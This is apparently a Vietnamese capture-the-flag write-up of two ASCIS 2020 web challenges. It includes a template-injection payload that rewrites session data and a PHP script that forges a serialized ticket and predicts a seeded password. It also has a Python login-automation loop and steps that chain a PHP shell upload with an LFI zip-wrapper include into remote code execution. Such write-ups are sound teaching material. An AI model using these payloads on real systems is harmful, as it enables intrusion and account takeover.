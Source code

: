 ```yaml
---
title: "ASCIS 2020 Quals - Web"
date: 2020-11-01
tags: ["ctf", "web"]
layout: layouts/post.njk
---
```

## TSULOTT3
```
POST /

name={% set x=session.update({'check': 'access', 'jackpot': ''}) %}&ok=
```
```
POST /guess

jackpot=
```

## among_us
1. Viết PHP script để generate ra `ticket` và password mới cho user
```php
<?php
class CrewMate {
	public $name = 'tsu';
	public $secret_number = [1, 2, 3, 4, 5, 6, 7, 8, 9];
}

$arr = new CrewMate;
$se = serialize($arr);

echo base64_encode($se) . PHP_EOL;

$de = unserialize($se);
$secret_number = strtoupper($de->secret_number);
$random_rand = rand(0, $secret_number);
srand($random_rand);
$new_password = "";
while (strlen($new_password) < 30) {
    $new_password .= strval(rand());
}
echo 'New password: ' . $new_password . PHP_EOL;
?>
```
2. Viết Python script để tự động hóa việc lấy token để đăng nhập
```python
from re import findall
from hashlib import md5
import requests

REGEX_TOKEN = r'name="token" value="(.*?)"'
PHPSESSID = '' # Nhập PHPSESSID vào biến

while True:
    res = requests.get('http://35.240.156.48/?page=forgot', cookies={
        'PHPSESSID': PHPSESSID
    })
    token = findall(REGEX_TOKEN, res.text)[0]
    res = requests.post('http://35.240.156.48/?page=forgot', data={
        'ticket': 'Tzo4OiJDcmV3TWF0ZSI6Mjp7czo0OiJu[redacted]', # Ticket được lấy từ PHP script ở trên
        'token': token
    }, cookies={
        'PHPSESSID': PHPSESSID
    })

    res = requests.get('http://35.240.156.48/?page=login', cookies={
        'PHPSESSID': PHPSESSID
    })
    token = findall(REGEX_TOKEN, res.text)[0]
    res = requests.post('http://35.240.156.48/?page=login', data={
        'username': 'tsu',
        'password': '117856802212731241191535857466', # Password được lấy từ PHP script ở trên
        'token': token
    }, cookies={
        'PHPSESSID': PHPSESSID
    })
```
Chạy cho đến khi script bị lỗi tại hàm `findall` (vì login xong sẽ không còn form login nữa nên không thể lấy được token, dẫn đến lỗi).
3. Upload 1 PHP shell và server sẽ tạo 1 file zip chứa file mình mới upload lên và sẽ được xóa cho đến khi có 1 lượt upload khác.
4. Sử dụng lỗi LFI ở trang `index.php` + zip wrapper để include PHP shell trong file zip => RCE.
5. Lấy flag ở trong database.
